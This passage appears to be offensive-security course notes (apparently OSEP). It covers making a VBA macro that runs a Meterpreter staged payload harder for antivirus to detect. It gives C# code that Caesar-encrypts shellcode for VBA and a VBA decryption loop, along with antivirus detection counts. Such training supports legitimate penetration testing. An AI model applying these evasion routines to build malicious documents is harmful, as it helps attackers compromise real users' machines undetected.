 > Listing 35 - Full VBA script to execute Meterpreter staged payload in memory

When we save this code in a document and scan it with AntiScan.Me, we find that it is detected by seven products:

![[OffSec/OSEP/Course/z. images/a6f2ebb53377942938daad9ae0084db8_MD5.jpg]]

Figure 14: Detection rate for VBA shellcode runner

Although this is a better result than the original C# shellcode runner (which was detected by 11 products), let's try to improve our results by encrypting the shellcode with a Caesar cipher. To do this, we'll need to encrypt the shellcode in an output format suitable for VBA.

We'll reuse the previous C# project to encrypt the shellcode and then copy the encrypted result into the VBA macro. For a VBA format, we'll use decimal values instead of hexadecimal as noted at line number 12 of the listing below. We'll then split the encrypted shellcode on multiple lines at line number 16 in order to handle the maximum size issues of literal strings:

```
1   byte[] encoded = new byte[buf.Length];
2   for(int i = 0; i < buf.Length; i++)
3   {
4     encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
5   }
6 
7   uint counter = 0;
8 
9   StringBuilder hex = new StringBuilder(encoded.Length * 2);
10  foreach(byte b in encoded)
11  {
12    hex.AppendFormat("{0:D}, ", b);
13    counter++;
14    if(counter % 50 == 0)
15    {
16        hex.AppendFormat("_{0}", Environment.NewLine);
17    }
18  }
19  Console.WriteLine("The payload is: " + hex.ToString());
```

> Listing 36 - Caesar cipher encryption routine

The encryption code itself remains unchanged and at line 14, we've inserted a newline for every 50 byte values with a modulo 50 statement.

When executing the VBA shellcode runner, we must also implement a decryption routine. Luckily, this is even easier than in C#, as shown in Listing 37:

```
For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
```

> Listing 37 - Caesar decryption routine in VBA

After inserting the encrypted shellcode and the decryption routine, our detection rate is 7 out of 26 products:
